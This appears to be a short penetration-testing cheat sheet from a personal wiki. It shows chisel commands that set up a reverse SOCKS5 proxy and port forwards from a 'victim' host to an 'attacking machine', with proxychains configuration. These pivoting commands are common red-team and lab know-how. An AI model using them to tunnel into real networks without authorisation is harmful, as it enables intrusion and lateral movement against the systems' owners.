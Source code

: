 #### Note: if you want to open an internal portal to external traffic, use [[Socat#Open external port to access internal]]

```
chisel server -p 8000 --socks5 --reverse // create the encrypted proxy on attacking machine
./chisel client SERVER:PORT R:5000:socks // Set up proxy on victim

Enter "socks5 127.0.0.1 5000" in /etc/proxychains.conf  // Add proxychains proxy
Usage: proxychains -q COMMAND

```

##### Port forward
```
./chisel_linux client 10.8.1.167:5000 R:8000:127.0.0.1:8000    // Victim
// OR
./chisel_linux client 10.8.1.167:5000 R:socks                  // Victim
chisel server -p 5000 --reverse                                // Attacker
```


